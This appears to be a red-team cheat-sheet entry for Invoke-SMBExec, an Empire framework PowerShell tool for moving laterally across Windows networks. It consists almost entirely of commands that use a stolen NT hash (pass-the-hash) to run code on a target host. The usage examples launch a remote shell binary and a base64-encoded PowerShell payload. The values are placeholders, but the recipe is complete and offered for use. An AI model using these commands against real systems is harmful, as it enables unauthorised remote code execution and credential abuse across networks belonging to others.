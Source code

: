 # Invoke-SMBExec

Search Tag(s): #lateral-movement #service-control-manager #windows

## 01 - Syntax

```
PS C:\> Import-Module .\Invoke-SMBExec.ps1

PS C:\> Invoke-SMBExec -Target <target_IP> -Domain <domain_name> -Username <username> -Hash <nt_hash> -Command "<commands>"
```

## 02 - Usage

```
PS C:\> Invoke-SMBExec -Target <target_IP> -Domain <domain_name> -Username <username> -Hash <nt_hash> -Command "C:\path\to\remote\shell.exe"

PS C:\> Invoke-SMBExec -Target <target_IP> -Domain <domain_name> -Username <username> -Hash <nt_hash> -Command "powershell -E <base64_encoded>"
```

---
## References

- [Invoke-SMBExec](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/lateral_movement/Invoke-SMBExec.ps1)